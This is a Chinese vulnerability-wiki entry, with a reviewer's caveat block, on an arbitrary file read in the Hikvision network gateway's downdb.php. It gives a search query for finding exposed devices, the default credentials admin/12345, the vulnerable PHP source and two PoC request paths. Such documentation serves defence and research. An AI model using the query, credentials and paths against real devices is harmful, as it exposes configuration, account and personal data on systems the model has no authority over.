


# Hikvision 联网网关 downdb.php 任意文件读取漏洞

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Hikvision联网网关/流媒体管理服务器
- 本文讨论：localDomain/downdb.php fileName读取
- 版本、权限与配置前提：称未授权；默认admin/12345另列；固件不明
- 资料类型：文件读取源码与请求；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 两个产品共用范围未分别证据；无官方补丁/原始固件来源
- 展示源码支持路径可控，但服务层鉴权未展示，默认口令非必要前提应分离

### 操作风险与恢复

- 读取内容可能包含配置、账户或个人数据；应只保存授权环境中最小必要的响应，不能由接口可达推定敏感内容已泄露

### 待核与来源

- 两产品版本、外围鉴权与实际根目录待核验
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

海康威视 联网网关 在页面 downdb.php 的参数fileName存在任意文件下载漏洞

## 漏洞影响

```
Hikvision 联网网关，流媒体管理服务器
```

## 网络测绘

```
"杭州海康威视系统技术有限公司 版权所有" && title=="联网网关"
```

## 漏洞复现

默认密码：`admin/12345`



出现漏洞的代码文件为downdb.php，可以未授权下载任意文件：

```
<?php
$file_name=$_GET['fileName'];
$file_dir = "../../../";
if   (!file_exists($file_dir.$file_name))   {   //检查文件是否存在  
  echo'<script> alert("文件不存在!");window.history.back(-1);</script>'; 
  exit();

}else{	
	$file = fopen($file_dir . $file_name,"r"); // 打开文件
	// 输入文件标签
	Header("Content-type: application/octet-stream");
	Header("Accept-Ranges: bytes");
	Header("Accept-Length: ".filesize($file_dir . $file_name));
	Header("Content-Disposition: attachment; filename=" . $file_name);
	// 输出文件内容
	echo fread($file,filesize($file_dir.$file_name));
	fclose($file);
	exit();
}
?> 
```

POC：

```
/localDomain/downdb.php?fileName=web/html/data/login.php
/localDomain/downdb.php?fileName=web/html/localDomain/downdb.php
```



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
